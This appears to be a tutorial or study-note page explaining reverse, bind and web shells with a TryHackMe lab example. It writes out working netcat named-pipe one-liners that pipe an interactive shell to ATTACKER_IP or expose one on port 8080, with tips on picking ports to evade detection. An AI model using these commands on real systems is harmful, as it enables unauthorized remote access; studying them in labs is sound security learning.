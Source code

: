 ### How Reverse Shells work
##### First, we set up a nc listener
```shell-session
attacker@kali:~$ nc -lvnp 443
listening on [any] 4444 ...
```

-l = wait for a connection
-v = verbose mode
-n = prevents connections from DNS for lookup, it will not resolve hostnames it will only use an IP address
-p = especify the used port (generally we use known ports in order to try to dodge being detected, such as 53, 80, 8080, 443, 139 or 445)

##### Secondly, we try to gain reverse shell access
As an example, let's analyze an example payload named a **pipe reverse shell**, as shown below.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

**Explanation of the Payload**

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO (first-in, first-out), at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring that error messages are sent back to the attacker.
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` - This part pipes the shell's output through `nc` (Netcat) to the attacker's IP address (`ATTACKER_IP`) on the attacker's port (`ATTACKER_PORT`).
- `>/tmp/f` -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.

##### the last step: the attacker receives the shell
Once the above payload is executed, we receive a reverse shell, allowing us to eexecute commands as if we were logged inside a regular terminal in the system

```shell-session
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```
---

### Bind Shell
A bind shell will bind a port on the compromised system and listen for a connection, when this connection occurs, it exposes the shell session so the ataccker can execute commands remotely
It can be used when the target does not allow outgoing connections, but it is usually less popular since it needs to remain active and listen for connections, which can sometimes lead to being detected more easily

**Setting Up the Bind Shell on the Target**

Let's create a bind shell. In this case, the attacker can use a command like the one below on the target machine.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

**Explanation of the Payload**

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO, at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring error messages are returned to the attacker.
- **`| nc -l 0.0.0.0 8080`** - Starts Netcat in listen mode (`-l`) on all interfaces (`0.0.0.0`) and port `8080`. The shell will be exposed to the attacker once they connect to this port.
- `>/tmp/f` This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 will require Netcat to be executed with elevated privileges. In this case, using port 8080 will avoid this.

**Terminal on the Target Machine (Bind Shell Setup)**

```shell-session
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Once the command is executed, it will wait for an incoming connection, as shown above.

**Attacker Connects to the Bind Shell**

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.

`nc -nv TARGET_IP 8080`

**Explanation of the command**

- `nc` - This invokes Netcat, which establishes the connection to the target.
- `-n` - Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.
- `-v` - Verbose mode provides detailed output of the connection process, such as when the connection is established.
- `TARGET_IP` - The IP address of the target machine where the bind shell is running.
- `8080` - The port number on which the bind shell listens.

**Attacker Terminal (After Connection)**

Terminal

```shell-session
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```

After connecting, we can get a shell, as shown above, and execute commands.

## Web Shell

a script written in a language supported by a compromised web server that executes commands through the web server itself. Usually a file containing the code that executes commands and handles files

They can be written in several languages such as PHP, ASP, JSP, and CGI scripts.


